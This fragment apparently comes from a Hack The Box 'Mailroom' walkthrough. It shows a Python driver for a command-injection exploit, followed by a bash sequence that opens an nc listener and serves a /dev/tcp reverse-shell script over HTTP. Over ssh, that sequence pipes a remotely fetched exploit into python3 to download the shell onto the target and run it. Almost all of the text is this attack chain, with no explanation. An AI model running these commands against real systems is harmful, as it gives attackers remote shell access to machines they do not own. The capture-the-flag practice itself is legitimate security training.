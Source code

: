 ```py
if __name__ == "__main__":

    cmd = ""
    try:
        cmd += argv[1]

        if check_blacklist_chars(cmd):
            exit("[-] Input contains blacklisted characters!")

    except IndexError as e:
        exit("Usage: script.py [COMMAND]")
    
    try:
        inspect_mailroom(url=rhost, cmd=cmd, email=email, password=password, mail=mail)
    except KeyboardInterrupt as e:
        print(e)
    except Exception as e:
        print(e)

```


```bash
term-1~$ nc -lvnp 4141

term-2~$ echo "sh -i >& /dev/tcp/10.10.14.27/4141 0>&1" > shell.sh
term-2~$ python -m http.server 8000

term-3~$ ssh tristan@mailroom.htb "curl -s http://10.10.14.27:8000/commandInjection-script.py | python3 - 'curl 10.10.14.27:8000/shell.sh -o /tmp/shell.sh'"
term-3~$ ssh tristan@mailroom.htb "curl -s http://10.10.14.27:8000/commandInjection-script.py | python3 - 'bash /tmp/shell.sh'"
```
